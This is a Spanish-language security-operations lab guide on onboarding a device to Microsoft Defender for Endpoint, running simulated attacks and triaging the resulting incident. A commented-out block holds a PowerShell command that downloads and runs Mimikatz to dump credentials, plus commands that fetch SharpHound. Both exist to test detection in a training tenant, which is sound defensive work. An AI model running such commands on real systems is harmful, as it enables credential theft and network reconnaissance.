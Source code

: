 ```yaml
---
lab:
  title: "Ejercicio 1: mitigación de ataques con Microsoft\_Defender para puntos de conexión"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Ruta de aprendizaje 2 - Laboratorio 1 - Ejercicio 2: mitigación de ataques con Microsoft Defender para puntos de conexión

## Escenario del laboratorio

![Introducción al laboratorio.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Usted es un analista de operaciones de seguridad que trabaja en una empresa que está implementando Microsoft Defender para punto de conexión. El administrador tiene previsto incorporar algunos dispositivos para dar información sobre los cambios necesarios en los procedimientos de respuesta del equipo de SecOps.

Para explorar las funcionalidades de mitigación de ataques de Defender para puntos de conexión, ejecutarás dos ataques simulados.

>**Nota:** Hay disponible una **[simulación de laboratorio interactiva](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** que le permite realizar sus propias selecciones a su entera discreción. Es posible que encuentre pequeñas diferencias entre la simulación interactiva y el laboratorio hospedado, pero las ideas y los conceptos básicos que se muestran son los mismos.


### Tarea 1: comprobar la incorporación de dispositivos

En esta tarea, confirmarás que el dispositivo se ha incorporado correctamente y crearás una alerta de prueba.

1. Si aún no está en el portal de Microsoft Defender XDR en el explorador Microsoft Edge, vaya a (https://security.microsoft.com) e inicie sesión como Administrador del inquilino.

1. En el menú de la izquierda, en el área **Recursos**, selecciona **Dispositivos**. Espere hasta que WIN1 aparezca en la página Dispositivos antes de continuar. De lo contrario, es posible que tengas que repetir esta tarea para ver las alertas que se generarán más adelante.

    >**Nota:** Si has completado el proceso de incorporación y no ves dispositivos en la lista Dispositivos después de una hora, podría indicar un problema de incorporación o conectividad.

1. Selecciona **Configuración** en la barra de menús de la izquierda. Después, en la página Configuración, selecciona **Puntos de conexión**.

1. Selecciona **Incorporación** en la sección Administración de dispositivos y asegúrate de que *"Windows 10 y 11"* esté seleccionado como sistema operativo. El mensaje *"Primer dispositivo incorporado"* ahora muestra *Completado*.

1. Desplázate hacia abajo y, en la sección *"2. Ejecutar una prueba de detección"*, copia el script de prueba de detección seleccionando el botón **Copiar**.  

1. En la barra de búsqueda de Windows de la máquina virtual WIN1, escribe **CMD** y elige **Ejecutar como administrador** en el panel derecho de la aplicación de símbolo del sistema. 

1. Cuando se muestre la ventana "Control de cuentas de usuario", selecciona **Sí** para permitir que se ejecute la aplicación. 

1. Pega el script haciendo clic con el botón derecho en las ventanas **Administrador: símbolo del sistema** y presiona **Entrar** para ejecutarlo.

    >**Nota:** la ventana se cierra automáticamente después de ejecutar el script.

### Tarea 2: ataques simulados

>**Nota:** El laboratorio de evaluación y la sección Tutoriales y simulaciones del portal ya no están disponibles. Los pasos siguientes se proporcionan solo como referencia. Consulte la **[simulación interactiva de laboratorio](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** para obtener una demostración de los ataques simulados. Estamos trabajando para encontrar un reemplazo de los ataques simulados.

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. En el menú izquierdo, en **Puntos de conexión**, selecciona **Evaluación y tutoriales** y después, selecciona **Tutoriales y simulaciones** en el lado izquierdo.

1. Selecciona la pestaña **Tutoriales**.

1. En *Investigación automatizada (puerta trasera)* verás un mensaje que describe el escenario. Debajo de este párrafo, haz clic en **Leer el tutorial**. Se abre una nueva pestaña del explorador que incluye instrucciones para realizar la simulación.

1. En la nueva pestaña del explorador, busca la sección denominada **Ejecutar la simulación** (página 5, a partir del paso 2) y siga los pasos para ejecutar el ataque. **Sugerencia:** el archivo de simulación *RS4_WinATP-Intro-Invoice.docm* se puede encontrar en el portal, justo debajo de **Leer el tutorial** que has seleccionado en el paso anterior, seleccionando el botón **Obtener archivo de simulación**.

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tarea 3: investigar los ataques

1. En el portal de Microsoft Defender XDR, seleccione **incidentes y alertas** en la barra de menús de la izquierda y, a continuación, seleccione **Incidentes**.

1. Hay un nuevo incidente denominado "Varias familias de amenazas detectadas en un punto de conexión" en el panel derecho. Selecciona el nombre del incidente para cargar sus detalles.

    >**Nota:** Debería ver las alertas *Bloodhound* y Mimikatz* en el panel **Alertas**. En **Activos/dispositivos**, el equipo *win1* ahora tendrá un **nivel de riesgo** con valor *Alto*.

1. Selecciona el botón **Administrar incidente** y aparecerá una nueva hoja de ventana. 

1. En **Etiquetas de incidente**, escriba "Simulación" y seleccione **Simulación (Crear nueva)** para crear una nueva etiqueta. 

1. Selecciona el botón de alternancia **Asignar a** y agrega tu cuenta de usuario (Me) como propietario del incidente. 

1. En **Clasificación**, expande el menú desplegable. 

1. En **Información, actividad esperada**, selecciona **Pruebas de seguridad**. 

1. Agrega los comentarios, si quieres, y selecciona **Guardar** para actualizar el incidente y finalizar.

1. Revisa el contenido de las pestañas *Ataque, Alertas, Activos, Investigaciones, Evidencia y Respuesta* y *Resumen*. Los dispositivos y los usuarios se encuentran en la pestaña *Recursos*. La pestaña *Historia de ataque* muestra el *Gráfico de incidentes*. **Sugerencia**: es posible que algunas pestañas estén ocultas debido al tamaño de la pantalla. Selecciona la pestaña de puntos suspensivos (...) para que aparezcan.

    >**Advertencia:** Los ataques aquí simulados son una excelente forma de aprendizaje mediante práctica. Realice solo los ataques de las instrucciones proporcionadas de este laboratorio cuando use el inquilino de Azure proporcionado por el curso.  Podrá realizar otros ataques simulados *después* de que este curso de entrenamiento se complete con este inquilino.

## Has completado el laboratorio.
